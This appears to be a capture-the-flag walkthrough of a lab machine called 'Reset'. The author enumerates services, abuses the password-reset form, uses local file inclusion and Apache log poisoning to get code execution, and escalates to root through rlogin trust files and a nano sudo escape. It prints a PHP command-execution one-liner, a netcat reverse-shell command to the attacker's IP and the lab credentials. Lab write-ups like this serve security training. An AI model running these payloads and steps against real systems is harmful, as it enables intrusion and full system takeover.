








# Reset
## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.234.130                                       
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-20 16:26 +0100
Nmap scan report for 10.129.234.130
Host is up (0.033s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
512/tcp open  exec
513/tcp open  login
514/tcp open  shell

Nmap done: 1 IP address (1 host up) scanned in 7.57 seconds
```
Standard SSH and HTTP but there is also some Rsync ports open
### Nmap
```python
nmap -p 22,80,512,513,514 -A --min-rate=2000 -sT 10.129.234.130
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-20 16:28 +0100
Nmap scan report for 10.129.234.130
Host is up (0.014s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6a:16:1f:c8:fe:fd:e3:98:a6:85:cf:fe:7b:0e:60:aa (ECDSA)
|_  256 e4:08:cc:5f:8e:56:25:8f:38:c3:ec:df:b8:86:0c:69 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Admin Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH (22)
### Version info
```python
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6a:16:1f:c8:fe:fd:e3:98:a6:85:cf:fe:7b:0e:60:aa (ECDSA)
|_  256 e4:08:cc:5f:8e:56:25:8f:38:c3:ec:df:b8:86:0c:69 (ED25519)
```
### Auth method
```python
ssh root@10.129.234.130 
The authenticity of host '10.129.234.130 (10.129.234.130)' can't be established.
ED25519 key fingerprint is: SHA256:HFXQA4H5wiZsaBpe1Ymxvzg72KiVi0uEjib0GxsYF30
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.234.130' (ED25519) to the list of known hosts.
root@10.129.234.130's password:
```
Password based authentication!

## HTTP (80)
### Nuclei
```python
nuclei -u http://reset.vl/                 

[cookies-without-httponly] [javascript] [info] reset.vl ["PHPSESSID"]
[cookies-without-secure] [javascript] [info] reset.vl ["PHPSESSID"]
[waf-detect:apachegeneric] [http] [info] http://reset.vl/
[ssh-auth-methods] [javascript] [info] reset.vl:22 ["["publickey","password"]"]
[ssh-password-auth] [javascript] [info] reset.vl:22
[ssh-server-enumeration] [javascript] [info] reset.vl:22 ["SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13"]
[ssh-sha1-hmac-algo] [javascript] [info] reset.vl:22
[openssh-detect] [tcp] [info] reset.vl:22 ["SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13"]
[apache-detect] [http] [info] http://reset.vl/ ["Apache/2.4.52 (Ubuntu)"]
[php-detect] [http] [info] http://reset.vl/
[missing-cookie-samesite-strict] [http] [info] http://reset.vl/ ["PHPSESSID=igjl00cutmclo86ob8r0ge1vtn; path=/"]
[tech-detect:jsdelivr] [http] [info] http://reset.vl/
[tech-detect:bootstrap] [http] [info] http://reset.vl/
[tech-detect:php] [http] [info] http://reset.vl/
[form-detection] [http] [info] http://reset.vl/
[missing-sri] [http] [info] http://reset.vl/ ["https://code.jquery.com/jquery-3.6.0.min.js"]
[http-missing-security-headers:strict-transport-security] [http] [info] http://reset.vl/
[http-missing-security-headers:permissions-policy] [http] [info] http://reset.vl/
[http-missing-security-headers:x-content-type-options] [http] [info] http://reset.vl/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://reset.vl/
[http-missing-security-headers:referrer-policy] [http] [info] http://reset.vl/
[http-missing-security-headers:clear-site-data] [http] [info] http://reset.vl/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://reset.vl/
[http-missing-security-headers:missing-content-type] [http] [info] http://reset.vl/
[http-missing-security-headers:content-security-policy] [http] [info] http://reset.vl/
[http-missing-security-headers:x-frame-options] [http] [info] http://reset.vl/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://reset.vl/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://reset.vl/
[caa-fingerprint] [dns] [info] reset.vl
[INF] Scan completed in 1m. 29 matches found.
```
### ffuf for subdomains
```python
nothing found
```
### Feroxbuster
```python
feroxbuster -u http://reset.vl/ -C 404                                                                                                 

200      GET        1l        2w       27c http://reset.vl/reset_password.php
200      GET       85l      213w     4125c http://reset.vl/
```
### Website functionality



The form itself does not appear interesting no manual username enumeration no SQL injection or authentication bypasses!



I think the way forward is going to be the password reset form!

Ill intercept this request with caido and play with it!

## Setting new password for the admin user



Simpy intercepting the request with ciado and sending this sends the new credentials in cleartext

```python
admin:5a1b7b97
```

## Accessing admin panel
Using the new password i can test the credentials



## Local file inclusion

I can select from a dropdown the file i want to display but proxying this request may allow me to choose which which file i access

Okay so after testing the parameter with lfi-jhaddix wordlist i see that any path inside `/var` is a valid path and will display the contents of the file

But anything outside gives the error `Invalid File Path`



Responses with a length of 2287 are paths in `/var` so they are deemed as valid and responses with a length of 2290 are outside of `/var` so they are invalid

With this information ill try to access `/var/log/apache2/access.log`

```python
<h4>Log Contents</h4>
<pre style="max-height: 400px; overflow-y: auto;">10.10.14.90 - - [20/Apr/2026:15:55:01 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 200 1132 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
10.10.14.90 - - [20/Apr/2026:15:56:04 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 400 2290 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
10.10.14.90 - - [20/Apr/2026:15:56:12 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 400 2290 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
10.10.14.90 - - [20/Apr/2026:15:56:53 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 400 2290 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
10.10.14.90 - - [20/Apr/2026:15:57:02 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 400 2290 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
10.10.14.90 - - [20/Apr/2026:15:57:32 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 400 2290 &quot;http://reset.vl/dashboard.php&quot; &quot;Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0&quot;
```
As seen here i am able to access the log file!

## Log poisoning via User Agent injection

https://medium.com/@YNS21/utilizing-log-poisoning-elevating-from-lfi-to-rce-5dca90d0a2ac

So since i know i can read logs i can turn this into remote code execution via log poisoning

So to do this ill inject a PHP one liner into the user agent field of the request ill have the file parameter still set to access.log and then i can execute commands via the URL

```python
<?php system($_GET['cmd']); ?>
```



Ill add the PHP one liner in the user agent

Then add the command i want to execute via the URL

```python
<h4>Log Contents</h4>
<pre style="max-height: 400px; overflow-y: auto;">10.10.14.90 - - [20/Apr/2026:16:15:14 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 200 1132 &quot;http://reset.vl/dashboard.php&quot; &quot;uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
&quot;
10.10.14.90 - - [20/Apr/2026:16:15:17 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 500 415 &quot;http://reset.vl/dashboard.php&quot; &quot;uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
&quot;
10.10.14.90 - - [20/Apr/2026:16:15:23 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 500 415 &quot;http://reset.vl/dashboard.php&quot; &quot;uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
&quot;
10.10.14.90 - - [20/Apr/2026:16:15:24 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 500 415 &quot;http://reset.vl/dashboard.php&quot; &quot;uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
&quot;
10.10.14.90 - - [20/Apr/2026:16:15:25 +0000] &quot;POST /dashboard.php HTTP/1.1&quot; 500 415 &quot;http://reset.vl/dashboard.php&quot; &quot;uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
&quot;
</pre>
```
As seen at the end of the output i have remote code execution!!


## Reverse shell as `www-data`
```python
penelope -p 1337
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ill set a listener to start 

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.90 1337 >/tmp/f
```
Ill use the same method as before just place this in the `cmd=` parameter making sure its URL encoded

```python
penelope -p 1337
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => reset 10.129.234.130 Linux-x86_64 👤 www-data(33) 😍️ Session ID <1>
[+] Upgrading shell to PTY...
[+] PTY upgrade successful via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/reset~10.129.234.130-Linux-x86_64/2026_04_20-17_22_41-167.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@reset:/var/www/html$ 
```
I now have a shell


## Privilege escalation
```python
www-data@reset:/var/www/html$ ls -la
total 28
drwxr-xr-x 3 root root 4096 Dec  7  2024 .
drwxr-xr-x 3 root root 4096 Dec  6  2024 ..
-rw-r--r-- 1 root root 2795 Dec  7  2024 dashboard.php
-rw-r--r-- 1 root root 4974 Dec  6  2024 index.php
drwxr-xrwx 2 root root 4096 Apr 20 15:48 private_34eee5d2
-rw-r--r-- 1 root root 1154 Dec  6  2024 reset_password.php
www-data@reset:/var/www/html$ 
```
There appears to be a private dir in the webroot browsing to it i find a sqlite file



However after checking this file out with sqlitebrowser i found nothing in it!

If i remember back to the start of the machine during recon i found Rsync ports, ill do some research into some priv esc vectors

### Rlogin

> The `rlogin` service, which operates on port 513, can be exploited for privilege escalation if it is misconfigured to trust remote hosts or users, specifically through the use of `.rhosts` or `/etc/hosts.equiv` files. These files allow for passwordless login, which can be leveraged to gain unauthorized access to a system, potentially as root.

```python
www-data@reset:/$ cat /etc/hosts.equiv
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#		    command access to your system .
- root
- local
+ sadm
www-data@reset:/$ 
```
It appears the `sadm` user is a trusted user on this service!

https://docs.oracle.com/cd/E19253-01/816-4555/remotehowtoaccess-27053/index.html

This file will give me more info on this subject

So since i know the service is setup to use `.rhosts` and `/etc/hosts.equiv` i can bypass the login and get access without a password

```python
www-data@reset:/$ find / -name .rhosts 2>/dev/null
/home/sadm/.rhosts
```
There is a `.rhosts` file in `sadm` home directory but i cannot access that

But i already know `sadm` is a trusted user so if im understanding the website correctly creating a user on my machine called `sadm` will grant me access without a password

### Creating `sadm` user

```python
sudo useradd -m -s /bin/bash sadm
[sudo] password for kali:
```
This created the user for me

```python
sudo passwd sadm
New password: 
Retype new password: 
passwd: password updated successfully
```
Ill then update the password

```python
su sadm         
Password:
```
Ill then switch to that user

```python
rlogin -l sadm reset.vl
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Apr 20 05:14:32 PM UTC 2026

  System load:           0.0
  Usage of /:            65.7% of 5.22GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             232
  Users logged in:       1
  IPv4 address for eth0: 10.129.234.130
  IPv6 address for eth0: dead:beef::250:56ff:fe94:87a3

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul  9 13:32:23 UTC 2025 from 10.10.14.77 on pts/0
sadm@reset:~$
```
I now have access!

### Accessing previous tmux session

```python
sadm        1126  0.0  0.2   8764  4092 ?        Ss   15:18   0:00 tmux new-session -d -s sadm_session
```
When checking processes i see that there is a tmux session running not something you would usually see

```python
sadm@reset:~$ tmux a -t sadm_session
```
From the proccess running i can see the session name is `sadm_session` all i have to do is re-attach to it!

```python
echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
sadm@reset:~$ echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
Too many errors from stdin
sadm@reset:~$ 
```
Looks like this is a password!

This password does not work on the user `local` or `root` so this must be sadm password

```python
sadm:7lE2PAfVHfjz4HpE
```

The password works on SSH

### Root access
```python
sadm@reset:~$ sudo -l
[sudo] password for sadm: 
Matching Defaults entries for sadm on reset:
    env_reset, timestamp_timeout=-1, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, !syslog

User sadm may run the following commands on reset:
    (ALL) PASSWD: /usr/bin/nano /etc/firewall.sh
    (ALL) PASSWD: /usr/bin/tail /var/log/syslog
    (ALL) PASSWD: /usr/bin/tail /var/log/auth.log
```
Ive got sudo permissions on all files

https://gtfobins.org/gtfobins/nano/#shell

```python
sudo nano /etc/firewall.sh
```
After opening the editor i can run the steps in gtfo bins

Ill use ctrl+r then ctrl+x then when prompted for a command `reset; sh 1>&0 2>&0`

This spaws a root session



Full compromise!
